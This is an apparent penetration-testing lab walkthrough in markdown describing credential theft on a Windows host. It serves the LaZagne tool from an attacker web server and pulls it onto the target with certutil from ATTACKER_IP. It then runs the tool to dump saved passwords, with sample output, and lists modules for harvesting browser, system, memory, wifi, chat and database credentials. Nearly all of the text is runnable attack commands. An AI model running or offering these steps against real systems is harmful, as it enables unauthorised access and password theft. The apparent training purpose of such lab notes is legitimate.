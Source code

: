 #### Step 3: LaZagne Deployment
```bash
# On attacker machine - setup web server
mkdir www && cd www
wget -q https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.7/LaZagne.exe
python3 -m http.server 8000
```

```cmd
# On target machine (as mcharles) - download LaZagne
certutil -urlcache -split -f "http://ATTACKER_IP:8000/LaZagne.exe" C:\Windows\Temp\lazagne.exe
```

#### Step 4: Credential Extraction
```cmd
# Run LaZagne with all modules
C:\Windows\Temp\lazagne.exe all

# Expected output format:
# |====================================================================|
# |                        The LaZagne Project                         |
# |                          ! BANG BANG !                             |
# |====================================================================|
# 
# ########## User: mcharles ##########
# 
# ------------------- Credman passwords -----------------
# [+] Password found !!!
# URL: onedrive.live.com
# Login: mcharles@inlanefreight.local
# Password: [EXTRACTED_PASSWORD]
```

### LaZagne Modules

#### Common Modules
```cmd
# Browser passwords
LaZagne.exe browsers

# System credentials  
LaZagne.exe sysadmin

# Memory dumps
LaZagne.exe memory

# WiFi passwords
LaZagne.exe wifi

# Chat applications
LaZagne.exe chats

# Databases
LaZagne.exe databases
```

